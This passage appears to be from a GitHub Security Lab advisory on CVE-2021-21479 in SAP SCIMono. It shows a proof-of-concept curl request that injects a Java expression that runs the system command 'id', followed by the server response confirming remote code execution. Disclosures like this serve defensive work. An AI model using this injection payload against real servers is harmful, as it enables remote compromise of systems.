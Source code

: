 <p>You can run arbitrary system commands such as <code class="language-plaintext highlighter-rouge">id</code>. Eg:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>$&gt; curl "http://localhost:8080/scim/Schemas/$%7B''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec(\"id\")')%7D"
</code></pre></div></div>

<p>which will get you:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>[ {
  "status" : "400",
  "schemas" : [ "urn:ietf:params:scim:api:messages:2.0:Error" ],
  "detail" : "The attribute value \"java.lang.UNIXProcess@3b1d4c18\" has invalid value!"
} ] 
</code></pre></div></div>

<p>The <code class="language-plaintext highlighter-rouge">java.lang.UNIXProcess</code> part proves that the process was run.</p>

<h4 id="impact">Impact</h4>

<p>This issue leads to Remote Code execution</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2021-21479</li>
</ul>

<h2 id="resources">Resources</h2>
<ul>
  <li><a href="https://github.com/SAP/scimono/security/advisories/GHSA-29q4-gxjq-rx5c">https://github.com/SAP/scimono/security/advisories/GHSA-29q4-gxjq-rx5c</a></li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-227</code> in any communication regarding this issue.</p>


   